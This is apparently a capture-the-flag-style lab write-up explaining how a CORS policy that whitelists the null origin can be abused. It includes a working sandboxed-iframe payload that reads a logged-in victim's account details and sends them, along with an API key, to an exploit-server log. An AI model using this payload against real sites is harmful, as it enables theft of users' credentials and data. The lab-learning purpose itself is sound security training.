 
### CORS vulnerability with trusted null origin : APPRENTICE

---


> Given credentials `wiener:peter`.

> Logging in with the given credentials and having BURPSUITE PROXY HTTP history on.

![](./screenshots/login.png)

> We see this page.


![](./screenshots/lab1-1.png)

> It has the API key of the `wiener` user, but we need that of the `admin` user.
> Viewing the HTTP history and going through the responses, we see the `GET` request for `/accountDetails`.

![](./screenshots/lab2-1.png)

> We see that the response contains the ACAC header, meaning that the CORS protocol is being used.
> To try and bypass it, we supply the `origin` header in the request with the value `null` and see how the application responds.

![](./screenshots/lab2-2.png)

> We see that the value `null` is whitelisted, as the ACAO and ACAC headers are returned with the appropriate values.
> To bypass it, we craft a payload that has the value `null` in it, such as using an `iframe` sandbox.
> This makes the origin seem like it is null.

```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a4d000f04ac541d80229edd004f005a.web-security-academy.net/accountDetails',true); 
req.withCredentials = true; 
req.send(); 
	   
function reqListener() { 
	location='https://exploit-0aa100160477546e80179dbe0165007e.exploit-server.net/log?key='+this.responseText; 
}; </script>">
</iframe>
```

> Adding it to the exploit server and then storing it and delivering to victim.

![](./screenshots/lab2-3.png)

> Open the access log and see that another IP address is logged, and in the path of the request, is the response.
> In the response is the API key.

![](./screenshots/lab2-4.png)

```
dTGpheHczcbbOCpzhFeEazetUhLMvgP8
```

> Submitting the solution completes the lab.

---
